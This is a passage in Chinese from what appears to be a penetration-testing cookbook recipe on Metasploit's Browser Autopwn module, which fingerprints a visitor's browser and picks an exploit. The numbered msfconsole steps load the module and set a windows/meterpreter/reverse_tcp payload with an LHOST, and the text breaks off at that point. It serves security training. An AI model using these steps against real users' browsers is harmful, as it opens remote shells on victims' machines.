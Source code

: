浏览器 Autopwn 是 Metasploit 提供的辅助模块，在受害者访问网页时，让你能够自动化对它们的攻击。浏览器 Autopwn 在攻击之前指定客户端的指纹识别，也就是说他不会对 IE 7 尝试利用 Firefox 的漏洞。基于它的浏览器判断，它决定最适于实施哪个漏洞利用。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE：

    ```
    msfconsole 
    ```

3.  搜索可用的 `autopwn` 模块。

    ```
    msfconsole autopwn
    ```

    ![](../img/4eb43991ae8dba79a6ef96aef09ecca6.png)

4.  使用`browser_autopwn`模块：

    ```
    Use auxiliary/server/browser_autopwn
    ```

5.  设置我们的载荷，这里我们使用 Windows 反向 TCP：

    ```
    set payload windows/meterpreter/reverse_tcp 
    ```

6.  显示可用于该载荷类型的选项。

    ```
    show options
    ```

7.  设置反向连接所使用的 IP。这里，该 PC 的 IP 地址为`192.168.10.109`。

    ```
    set LHOST 192.168.10.109
    ```
